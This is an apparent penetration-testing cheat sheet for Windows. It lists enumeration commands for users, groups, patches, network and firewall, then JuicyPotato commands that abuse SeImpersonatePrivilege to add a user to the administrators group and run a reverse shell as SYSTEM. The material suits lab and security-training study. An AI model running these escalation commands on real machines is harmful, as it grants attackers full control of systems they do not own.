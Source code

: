 # Windows-Exploitation

## Windows enumeration

#### Who
```
whoami
echo %username%
whoami /priv
```

#### Users and groups
```
// What users/localgroups are on the machine?
net users
net localgroups

// More info about a specific user. Check if user has privileges.
net user user1

// View Domain Groups
net group /domain

// View Members of Domain Group
net group /domain {Group Name}
```

#### System info
```
systeminfo
ver
hostname
```

#### Patch on the system
```
wmic qfe get Caption,Description,HotFixID,InstalledOn
```

#### Network
```
ipconfig /all
route print
arp -A
```

#### Firewall
```
netsh firewall show state
netsh firewall show config
```

##### Search a specific filename
```
dir /b/s proof.txt
```

## Automated enumeration

## Privesc

#### MS17-010 - Eternal Blue


#### Abuse SeImpersonatePrivilege

```
1. Verify that 'SeImpersonatePrivilege' privilege is enabled.

C:\Users\Lexis>whoami /priv
Informations de privilèges
----------------------

Privilege Name                Description                                  State
============================= ============================================ =========
SeShutdownPrivilege           Stop the system                              Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                     Enabled
SeImpersonatePrivilege        Impersonate a client after authentication    Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set               Disabled

2. Import JuicyPotato on the victim

3. Basic attacks without specific CLSID

// Add a user in the administrators group
.\JuicyPotato.exe -l 1337 -p C:\Windows\system32\cmd .exe -t * -a "/c net localgroup administrators {MY_EXISTING_USER} /add"

// Execute a reverse shell as NT AUTHORITY\SYSTEM
.\JuicyPotato.exe -l 1337 -p C:\Users\public\rshell.exe -t *

4. Using specific CLSID

helper : https://ohpe.it/juicy-potato/CLSID/

//Manual CLSID dectection based on OS version
https://ohpe.it/juicy-potato/CLSID/

//Automated CLSID detection scripts
.\GetCLSID.ps1
or 
.\clisd-detector.bat

//Add a user in the administrators group using the specific CLSID
.\JuicyPotato.exe -l 1337 -p C:\Windows\system32\cmd .exe -t {CLSID} -a "/c net localgroup administrators {MY_EXISTING_USER} /add"

```
